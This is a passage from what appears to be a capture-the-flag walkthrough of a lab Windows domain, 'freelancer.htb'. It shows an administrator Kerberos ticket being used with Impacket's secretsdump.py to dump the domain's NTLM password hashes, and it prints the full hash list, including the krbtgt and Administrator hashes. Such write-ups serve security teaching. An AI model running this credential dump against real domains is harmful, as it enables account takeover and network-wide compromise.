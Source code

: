 With this ticket, I can act as the administrator account, so there are multiple ways to abuse this. I’ll use `secretsdump.py` to get the hashes for the domain:

```

oxdf@hacky$ KRB5CCNAME='administrator@cifs_DC.freelancer.htb@FREELANCER.HTB.ccache' secretsdump.py -no-pass -k dc.freelancer.htb -just-dc-ntlm
Impacket v0.12.0.dev1+20240308.164415.4a62f39 - Copyright 2023 Fortra

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:0039318f1e8274633445bce32ad1a290:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:d238e0bfa17d575038efc070187a91c2:::
freelancer.htb\mikasaAckerman:1105:aad3b435b51404eeaad3b435b51404ee:e8d62c7d57e5d74267ab6feb2f662674:::
sshd:1108:aad3b435b51404eeaad3b435b51404ee:c1e83616271e8e17d69391bdcd335ab4:::
SQLBackupOperator:1112:aad3b435b51404eeaad3b435b51404ee:c4b746db703d1af5575b5c3d69f57bab:::
sql_svc:1114:aad3b435b51404eeaad3b435b51404ee:af7b9d0557964265115d018b5cff6f8a:::
lorra199:1116:aad3b435b51404eeaad3b435b51404ee:67d4ae78a155aab3d4aa602da518c051:::
freelancer.htb\maya.artmes:1124:aad3b435b51404eeaad3b435b51404ee:22db50a324b9a34ea898a290c1284e25:::
freelancer.htb\michael.williams:1126:aad3b435b51404eeaad3b435b51404ee:af7b9d0557964265115d018b5cff6f8a:::
freelancer.htb\sdavis:1127:aad3b435b51404eeaad3b435b51404ee:933a86eb32b385398ce5a474ce083447:::
freelancer.htb\d.jones:1128:aad3b435b51404eeaad3b435b51404ee:933a86eb32b385398ce5a474ce083447:::
freelancer.htb\jen.brown:1129:aad3b435b51404eeaad3b435b51404ee:933a86eb32b385398ce5a474ce083447:::
freelancer.htb\taylor:1130:aad3b435b51404eeaad3b435b51404ee:933a86eb32b385398ce5a474ce083447:::
freelancer.htb\jmartinez:1131:aad3b435b51404eeaad3b435b51404ee:933a86eb32b385398ce5a474ce083447:::
freelancer.htb\olivia.garcia:1133:aad3b435b51404eeaad3b435b51404ee:933a86eb32b385398ce5a474ce083447:::
freelancer.htb\dthomas:1134:aad3b435b51404eeaad3b435b51404ee:933a86eb32b385398ce5a474ce083447:::
freelancer.htb\sophia.h:1135:aad3b435b51404eeaad3b435b51404ee:933a86eb32b385398ce5a474ce083447:::
freelancer.htb\Ethan.l:1138:aad3b435b51404eeaad3b435b51404ee:933a86eb32b385398ce5a474ce083447:::
freelancer.htb\wwalker:1141:aad3b435b51404eeaad3b435b51404ee:933a86eb32b385398ce5a474ce083447:::
freelancer.htb\jgreen:1142:aad3b435b51404eeaad3b435b51404ee:933a86eb32b385398ce5a474ce083447:::
freelancer.htb\evelyn.adams:1143:aad3b435b51404eeaad3b435b51404ee:933a86eb32b385398ce5a474ce083447:::
freelancer.htb\hking:1144:aad3b435b51404eeaad3b435b51404ee:933a86eb32b385398ce5a474ce083447:::
freelancer.htb\alex.hill:1145:aad3b435b51404eeaad3b435b51404ee:933a86eb32b385398ce5a474ce083447:::
freelancer.htb\samuel.turner:1146:aad3b435b51404eeaad3b435b51404ee:933a86eb32b385398ce5a474ce083447:::
freelancer.htb\ereed:1149:aad3b435b51404eeaad3b435b51404ee:933a86eb32b385398ce5a474ce083447:::
freelancer.htb\leon.sk:1151:aad3b435b51404eeaad3b435b51404ee:af7b9d0557964265115d018b5cff6f8a:::
freelancer.htb\carol.poland:1160:aad3b435b51404eeaad3b435b51404ee:af7b9d0557964265115d018b5cff6f8a:::
freelancer.htb\lkazanof:1162:aad3b435b51404eeaad3b435b51404ee:a26c33c2878b23df8b2da3d10e430a0f:::
DC$:1000:aad3b435b51404eeaad3b435b51404ee:89851d57d9c8cc8addb66c59b83a4379:::
DATACENTER-2019$:1115:aad3b435b51404eeaad3b435b51404ee:7a8b0efef4571ec55cc0b9f8cb73fdcf:::
DATAC2-2022$:1155:aad3b435b51404eeaad3b435b51404ee:007a710c0581c63104dad1e477c794e8:::
WS1-WIIN10$:1156:aad3b435b51404eeaad3b435b51404ee:57e57c6a3f0f8fff74e8ab524871616b:::
WS2-WIN11$:1157:aad3b435b51404eeaad3b435b51404ee:bf5267ee6236c86a3596f72f2ddef2da:::
WS3-WIN11$:1158:aad3b435b51404eeaad3b435b51404ee:732c190482eea7b5e6777d898e352225:::
DC2$:1159:aad3b435b51404eeaad3b435b51404ee:e1018953ffa39b3818212aba3f736c0f:::
SETUPMACHINE$:8601:aad3b435b51404eeaad3b435b51404ee:f5912663ecf2c8cbda2a4218127d11fe:::
0xdf$:11601:aad3b435b51404eeaad3b435b51404ee:1d6022ba48a97d47ea31566ce1bce602:::
[*] Cleaning up...

```

